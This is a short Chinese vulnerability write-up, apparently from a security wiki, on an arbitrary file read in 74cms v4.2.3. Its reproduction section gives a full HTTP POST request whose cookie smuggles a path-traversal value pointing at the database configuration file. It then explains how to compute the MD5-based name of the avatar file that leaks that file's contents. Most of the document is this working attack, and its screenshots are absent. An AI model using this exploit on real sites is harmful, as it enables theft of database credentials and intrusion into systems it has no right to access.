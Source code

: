 # 74cms v4.2.3 任意文件读取

## 一、漏洞简介
## 二、漏洞影响
74cms v4.2.3

## 三、复现过程
先尝试读取 db.php，向服务器post如下数据

```html
POST /index.php?m=&c=members&a=register HTTP/1.1
Host: www.0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php; members_bind_info[type]=qq; members_uc_info[password]=xcxmiku; members_uc_info[uid]=123456; members_uc_info[username]=xcxmiku
Content-Type: application/x-www-form-urlencoded

ajax=1&reg_type=2&utype=2&org=bind&ucenter=bind
```

会返回如下数据

1.png

在/data/upload/avatar/年月/日文件夹下 会生成一张图片

2.png

这张图片的名称由id和时间戳的md5值构成，我们可以将Burp Suite上返回的时间转换为时间戳

3.png

不过这个时间可能会有误差，如果不行就把时间+-10

我post的id为654321，获取的时间戳为1571659588，将他们连在一起进行md5加密

4.png

成功获取图片名，然后访问

```html
https://www.0-sec.org/data/upload/avatar/1910/21/9aaa3653bf6ec9491bc002b52521962c.jpg 
```

保存该图片用文本打开就是 db.php 的内容。
